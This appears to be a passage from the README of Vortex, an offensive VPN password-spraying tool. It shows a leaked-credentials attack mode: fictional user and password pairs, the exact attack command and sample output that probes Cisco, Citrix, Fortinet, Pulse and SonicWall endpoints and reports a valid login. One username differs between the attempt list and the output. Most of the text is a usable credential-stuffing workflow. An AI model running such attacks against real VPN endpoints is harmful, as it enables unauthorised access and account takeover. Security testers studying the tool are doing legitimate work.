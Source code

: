 ```
User                            Leaks
----------------------------    ----------------------------
elliot.alderson@evilcorp.com    ["ISecretlyLoveAngela2020!"]
tom.wellick@evilcorp.com        ["Puppy19!", "MySweetJ111!"]
```

Vortex will operate the following attempts, and just the following:

```
elliot.alderson@evilcorp.com:ISecretlyLoveAngela2020!
tom.wellick@evilcorp.com:Puppy19!
tom.wellick@evilcorp.com:MySweetJ111!
```

To perform this attack, no password file is needed, but it's required to set
the (-L, or --leaks) parameter.

```
python manage.py -w workspace1 vpn -c attack -L

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : cisco
1 : citrix
2 : citrixlegacy
3 : fortinet
4 : pulse
5 : sonicwall
6 : all
 $> 6
[*] Attacking vpn.evilcorp.com:443
  [+] elliot.alderson@evilcorp.com:ISecretlyLoveAngela2020! is valid!
  [-] tyrell.wellick@evilcorp.com:Puppy19! is not valid.
  [-] tyrell.wellick@evilcorp.com:MySweetJ111! is not valid.
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```


[1]: https://github.com/byt3bl33d3r/SprayingToolkit
